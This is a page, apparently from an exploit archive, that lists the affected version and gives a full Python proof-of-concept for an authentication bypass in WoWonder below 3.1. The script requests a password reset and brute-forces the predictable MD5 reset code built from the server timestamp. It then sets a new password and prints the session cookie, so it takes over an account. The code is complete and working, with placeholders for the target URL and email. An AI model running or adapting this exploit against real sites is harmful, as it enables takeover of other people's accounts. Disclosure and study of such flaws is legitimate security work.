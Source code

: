 <languages />

גרסה מושפעת
-----------

Version: \< 3.1

EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - Authentication Bypass
    # Date: 11.06.2021
    # Exploit Author: securityforeveryone.com
    # Researchers : Security For Everyone Team - https://securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    '''
    DESCRIPTION

    In WoWonder < 3.1, remote attackers can take over any account due to the weak cryptographic algorithm in recover.php. The code parameter is easily predicted from the time of day.
    The vulnerability is found the "code" parameter in password reset link. The password reset code can be estimated by combining the password reset link time and the random value generated between 111 and 999.
    if an attacker exploits this vulnerability, attacker may access all accounts in WoWonder application.

    ABOUT SECURITY FOR EVERYONE TEAM

    We are a team that has been working on cyber security in the industry for a long time.
    In 2020, we created securityforeveyone.com where everyone can test their website security and get help to fix their vulnerabilities.
    We have many free tools that you can use here: https://securityforeveryone.com/tools/free-security-tools
    '''

    import requests
    import email.utils as eut
    import calendar, time;
    import hashlib, re;

    url = "http://wowonderlab:80/wowonder/" #change this with your target
    myheaders = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}
    recoverdata = {"recoveremail": "wowondertest@securityforeveryone.com"}  #change this email with your registered wowonder email address
    req = requests.post(url+"requests.php?f=recover", headers=myheaders, data=recoverdata)
    b = eut.parsedate(req.headers["Date"])
    respepoch = calendar.timegm(time.strptime("{0}-{1}-{2} {3}:{4}:{5}".format(b[0],b[1],b[2],b[3],b[4],b[5]), '%Y-%m-%d %H:%M:%S'))

    for token in range(111,1000):
        str2hash = "{0}{1}".format(token,respepoch)
        email_code = hashlib.md5(str2hash.encode()).hexdigest()

        req_reset = requests.get(url+"index.php?link1=reset-password&code=1_{0}".format(email_code))
        if len(re.findall("New password",req_reset.text)) == 1:
            print(email_code)
            resetdata = {"password": "10711071", "id": "1_"+email_code}
            reqtoken = requests.post(url+"requests.php?f=reset_password", headers=myheaders, data=resetdata)
            print(reqtoken.headers['Set-Cookie'])
            break